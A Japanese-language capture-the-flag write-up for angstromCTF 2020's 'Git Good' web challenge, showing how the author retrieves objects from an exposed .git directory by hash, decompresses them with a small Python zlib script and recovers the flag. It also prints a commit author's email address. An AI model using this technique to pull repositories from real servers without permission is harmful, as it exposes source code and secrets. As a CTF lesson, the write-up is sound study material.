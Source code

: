 # Git Good:Web:70pts
Did you know that angstrom has a git repo for all the challenges? I noticed that clam committed [a very work in progress challenge](https://gitgood.2020.chall.actf.co/) so I thought it was worth sharing.  
Hint  
Static file serving is a very dangerous thing when in the wrong directory.  

# Solution
はじめにhttps://gitgood.2020.chall.actf.co/.git/HEADにアクセスする。  
config、descriptionと順に見ていくがflagは無いようである。  
つぎにhttps://gitgood.2020.chall.actf.co/.git/logs/HEADを取得する。  
上記ファイルから以下のハッシュを取得できる。  
```text
6b3c94c0b90a897f246f0f32dec3f5fd3e40abb5
e975d678f209da09fff763cd297a6ed8dd77bb35
```
./git/objectsの構成はハッシュの先頭二桁がディレクトリ名に、残りがファイル名になる。  
https://gitgood.2020.chall.actf.co/.git/objects/6b/3c94c0b90a897f246f0f32dec3f5fd3e40abb5  
https://gitgood.2020.chall.actf.co/.git/objects/e9/75d678f209da09fff763cd297a6ed8dd77bb35  
上記URLからファイルを取得し、zlib_dec.pyでzlib.decompressを行う。  
```python:zlib_dec.py
import zlib

f1 = open("3c94c0b90a897f246f0f32dec3f5fd3e40abb5")
f2 = open("75d678f209da09fff763cd297a6ed8dd77bb35")
print(zlib.decompress(f1.read()))
print(zlib.decompress(f2.read()))
f1.close()
f2.close()
```
```text:出力1
commit 210 tree b630430d9d393a6b143af2839fd24ac2118dba79
author aplet123 <noneof@your.business> 1583598444 +0000
committer aplet123 <jasonqan2004@gmail.com> 1583598444 +0000

haha I lied this is the actual initial commit

commit 227 tree 9402d143d3d7998247c95597b63598ce941e7bcb
parent 6b3c94c0b90a897f246f0f32dec3f5fd3e40abb5
author aplet123 <noneof@your.business> 1583598464 +0000
committer aplet123 <jasonqan2004@gmail.com> 1583598464 +0000

Initial commit

```
これによりさらに以下のハッシュを取得できる。  
```text
b630430d9d393a6b143af2839fd24ac2118dba79
9402d143d3d7998247c95597b63598ce941e7bcb
```
再度./git/objectsを見に行き、zlib.decompressを行う。  
https://gitgood.2020.chall.actf.co/.git/objects/b6/30430d9d393a6b143af2839fd24ac2118dba79  
https://gitgood.2020.chall.actf.co/.git/objects/94/02d143d3d7998247c95597b63598ce941e7bcb  
```python:zlib_dec.py(差分1)
f1 = open("30430d9d393a6b143af2839fd24ac2118dba79")
f2 = open("02d143d3d7998247c95597b63598ce941e7bcb")
```
treeなのでファイルにリダイレクト(tree)してバイナリエディタなどで見ると分かりやすい。  
thisistheflag.txtなるものがあるようだ。  
```text
0f52598006f9cdb21db2f4c8d44d70535630289b
247c9d491c0d2d6da5e93afcd0681b3edd7ccd70
```
ハッシュが取得できるので同様にzlib.decompress。
https://gitgood.2020.chall.actf.co/.git/objects/0f/52598006f9cdb21db2f4c8d44d70535630289b  
https://gitgood.2020.chall.actf.co/.git/objects/24/7c9d491c0d2d6da5e93afcd0681b3edd7ccd70  
```python:zlib_dec.py(差分2)
f1 = open("52598006f9cdb21db2f4c8d44d70535630289b")
f2 = open("7c9d491c0d2d6da5e93afcd0681b3edd7ccd70")
```
```text:出力2
blob 75 actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}

btw this isn't the actual git server

blob 32 There used to be a flag here...

```

## actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}